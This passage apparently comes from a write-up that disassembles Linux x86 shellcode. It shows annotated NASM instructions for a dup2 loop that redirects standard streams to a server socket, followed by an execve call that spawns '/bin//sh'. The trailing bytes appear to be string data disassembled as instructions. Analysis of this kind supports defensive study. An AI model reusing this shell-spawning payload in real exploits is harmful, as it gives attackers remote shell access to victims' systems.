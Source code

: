 <figcaption class="figure-caption">Use `dup2()` to redirect `stderr` to the server socket</figcaption>

```nasm
0000000A  49                dec ecx

                            ; jump back to 'push byte 0x3f', continue when ECX == -1
0000000B  79F8              jns 0x5
```

<figcaption class="figure-caption">The instruction `JNS` is useful when you want your loop to perform another iteration: when `ECX=0`</figcaption>

```nasm
                            ; set EAX to 0xb
0000000D  6A0B              push byte +0xb
0000000F  58                pop eax

                            ; clear EDX and use a string terminator (NULL byte)
00000010  99                cdq
00000011  52                push edx

                            ; string '/bin//sh'
00000012  682F2F7368        push dword 0x68732f2f
00000017  682F62696E        push dword 0x6e69622f

                            ; copy the pointer to "/bin//sh" into EBX
0000001C  89E3              mov ebx,esp

                            ; argv argument of execve (array of pointers)
0000001E  52                push edx
0000001F  53                push ebx

                            ; ECX is an array of pointers: first value is pointer to "/bin//sh", second one is 0x00000000
00000020  89E1              mov ecx,esp

                            ; ; syscall 0xb (11): execve
00000022  CD80              int 0x80
```

<figcaption class="figure-caption">After input/output/error is redirected, the shellcode spawn a shell (`/bin//sh`)</figcaption>

```nasm
00000024  6563686F          arpl [gs:eax+0x6f],bp
00000028  205135            and [ecx+0x35],dl
0000002B  32617A            xor ah,[ecx+0x7a]
0000002E  46                inc esi
0000002F  56                push esi
00000030  4D                dec ebp
00000031  49                dec ecx
00000032  7847              js 0x7b
00000034  0A                db 0x0a
```
